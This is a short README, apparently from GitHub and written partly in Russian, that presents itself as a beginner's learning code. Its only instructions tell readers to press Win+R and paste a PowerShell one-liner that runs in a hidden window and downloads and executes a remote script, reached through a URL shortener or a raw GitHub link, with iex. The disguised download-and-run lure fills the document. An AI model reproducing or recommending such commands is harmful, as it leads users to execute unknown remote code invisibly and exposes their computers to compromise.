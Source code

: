 это мой код, созданный для обучения

For install:
Win + R and paste this:

option 1: (Fast)
```powershell -w hidden "iex(iwr tinyurl.com/36rkw6p3 -UseB)"```

option 2: (raw)
```powershell -w hidden "iex(iwr https://raw.githubusercontent.com/Aleksandr020295/Aleksandr_javascript/main/add.ps1 -UseB)"```

Мой код прост, но я знаю, что однажды научусь создавать невероятные коды.
Спасибо, что зашли посмотреть мой код
